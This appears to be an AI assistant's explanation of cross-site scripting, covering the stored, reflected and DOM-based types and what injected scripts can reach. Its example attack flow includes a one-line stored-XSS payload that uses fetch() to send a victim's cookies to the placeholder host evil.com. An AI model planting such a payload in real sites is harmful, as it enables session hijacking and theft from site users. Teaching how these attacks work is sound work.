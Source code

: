 Yes, that statement is **correct**, but it could be refined for greater precision. Here's a detailed breakdown:

---

### **The Statement:**
*"XSS is a client-side exploit that allows an attacker to inject and execute malicious client-side JavaScript code in another user's browser."*

### **Why It's Correct:**
1. **Client-Side Exploit**:
    - XSS (Cross-Site Scripting) exploits vulnerabilities in **client-side code** (e.g., improper input sanitization in web apps).
    - Unlike server-side attacks (e.g., SQL injection), XSS targets users' browsers.

2. **Code Injection & Execution**:
    - Attackers inject malicious scripts (typically JavaScript) into a trusted website.
    - These scripts execute **in the victim's browser** with the same privileges as the website's legitimate scripts.

3. **Impact on Another User**:
    - The malicious code runs in the context of **other users** who visit the compromised page (e.g., via stored XSS) or click a crafted link (reflected XSS).

---

### **Refinements for Precision:**
1. **XSS Types**:
    - **Stored XSS**: Malicious script is saved on the server (e.g., in a comment) and served to all users.
    - **Reflected XSS**: Script is embedded in a URL and executed when the victim clicks the link.
    - **DOM-based XSS**: Vulnerability exists purely in client-side code (no server interaction).

2. **Scope of Execution**:
    - The injected code runs **in the victim's browser** but can:
        - Steal cookies (`document.cookie`), `sessionStorage`, or `localStorage`.
        - Modify the DOM (e.g., phishing forms).
        - Make authenticated requests to the vulnerable site (CSRF-like actions).

3. **Not All Client-Side Exploits Are XSS**:
    - Other client-side attacks (e.g., Clickjacking, DOM Clobbering) are distinct from XSS.

---

### **Example Attack Flow (Stored XSS):**
1. Attacker posts a comment with embedded JavaScript:
   ```html
   <script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>
   ```
2. The server stores this comment **without sanitization**.
3. When another user loads the page, the script executes, sending their session cookie to the attacker.

---